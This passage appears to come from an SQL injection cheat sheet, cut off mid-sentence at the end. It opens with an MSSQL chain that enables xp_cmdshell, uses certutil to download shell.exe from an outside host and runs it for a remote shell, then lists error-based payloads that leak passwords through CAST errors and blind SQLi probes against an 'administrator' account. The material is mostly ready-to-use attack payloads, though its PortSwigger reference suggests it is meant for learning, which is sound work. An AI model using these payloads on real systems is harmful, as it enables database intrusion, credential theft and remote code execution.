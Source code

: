 ```html
<!-- 1. Enable the shell command -->
' ; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

<!-- 2. Download our payload -->
' ; EXEC xp_cmdshell 'certutil -urlcache -f http://10.0.0.1:8000/shell.exe C:\Windows\Temp\shell.exe';--

<!-- 3. Execute the payload -->
' ; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe';--
```

After execution, we may get a shell of target system.

<br />

## Error-based SQLi

Reference: [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

We might be able to gather information of the database by leading the error message. We can construct SQLi while checking error messages.  
Here are MySQL injection examples.

```html
' AND 1=CAST((SELECT 1) AS int)-- -
' AND 1=CAST((SELECT password FROM users) AS int)-- -
<!-- Limit only one row if required -->
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)
```

In the example above, we may see the password revealed in the error message.

<br />

## Blind SQL

### 1. Check if the SQL Injection Works

```txt
' AND '1'='1
' AND '1'='2
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

### 2. Check if Content Value Exists

For example, check if username 'administrator' exists in 'users'

```txt
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

If so, determine the password length
